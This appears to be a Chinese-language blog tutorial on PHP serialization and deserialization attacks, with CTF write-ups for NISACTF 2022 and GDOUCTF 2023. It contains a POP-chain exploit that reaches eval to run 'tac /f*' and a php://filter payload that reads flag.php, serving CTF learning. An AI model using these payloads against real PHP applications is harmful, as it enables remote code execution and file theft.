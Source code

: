 ```yaml
---
layout: post
title: php序列化
categories: [web,php]
---
```


## 概念

```
PHP程序执行结束以后会将文件中的变量和内容释放掉， 如果一个程序想要的调用之前程序的变量，但是之前的程序已经执行完毕，所有的变量和内容都被释放，那该如何操作呢？这时  候就可以通过序列化和反序列化保存程序中的对象，给其他程序使用。 php序列化可以将对象转换成字符串，但只序列化属性，不序列化方法。
```

如果 `unserialize() `在执行时定义了 `__destruct()` 或 `__wakeup() `函数，则有可能导致代码执行。  

`A::b`表示应用类中的静态方法

## 含义

```php
    <?php
        class TEST{
            public $a="public";  
            private $b="private";  
            protected $c="protected";  
            static $d="static";  
        }

        $aaa=new TEST();  
        echo serialize($aaa);  

    ?>

    输出：O:4:"TEST":3{s:1:"a";s:6:"public";s:7:"TESTb";s:7:"private";s:4:"*c";s:9:"protected";}  

    解释：  
    O:表示这是一个对象  
    4:对象的名称TEST有4个字符  
    TEST:对象的名称  
    3:对象属性的个数（不包含static）  

    s:变量名数据类型为string  
    1:变量a的名字长度   
    a:变量名称  
    s:变量值的数据类型  
    6:变量值的长度  
    public:变量的值  
```

---

## 其他常见的magic函数

![magic](/img/magic.png)

## 先从简单的POP链学起  

### [NISACTF 2022]babyserialize

```php
<?php
include "waf.php";
class NISA{
    public $fun="show_me_flag";
    public $txw4ever; //第一个写执行命令的地方
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke() //找到切入点，作为尾巴  要找到调用函数触发
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }
}

class TianXiWei{
    public $ext;//5
    public $x;
    public function __wakeup()
    {
        $this->ext->nisa($this->x); //找到一个不存在的函数,__wakeup作为首
    }
}

class Ilovetxw{
    public $huang;//4
    public $su; //2

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0]; //找到不存在的fun()方法,且要激活__call()
    }

    public function __toString(){
        $bb = $this->su;
        return $bb(); //调用函数，且要激活__toString()
    }
}

class four{
    public $a="TXW4EVER";  //3
    private $fun='abc';

    public function __set($name, $value)
    {
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a); //转换为字符小写,且要激活__set()
        }
    }
}

if(isset($_GET['ser'])){
    @unserialize($_GET['ser']);
}else{
    highlight_file(__FILE__);
}

//func checkcheck($data){
//  if(preg_match(......)){
//      die(something wrong);
//  }
//}

//function hint(){
//    echo ".......";
//    die();
//}
?>
```

构造pop链

```php
<?php
class NISA{
public $fun;
public $txw4ever='SYSTEM("tac /f*");';
}
class TianXiWei{
public $ext;
public $x;
}
class Ilovetxw{
public $huang;
public $su;
}
class four{
public $a;
private $fun;
}
$a=new TianXiWei();
$a->ext=new Ilovetxw();
$a->ext->huang=new four();
$a->ext->huang->a=new Ilovetxw();
$a->ext->huang->a->su=new NISA();
echo urlencode(serialize($a));
```

### [NISACTF 2022]popchains

### 反序列化也可以跟$_SESSION和字符串逃逸结合起来

[点击查看](https://minelords.github.io/2023/08/06/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%B0%8F%E7%9F%A5%E8%AF%86%E9%9B%86/#_session%E7%9A%84%E4%BD%BF%E7%94%A8)


### [GDOUCTF 2023]反方向的钟
原生类的应用
原生类SplFileObject读取文件
>a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php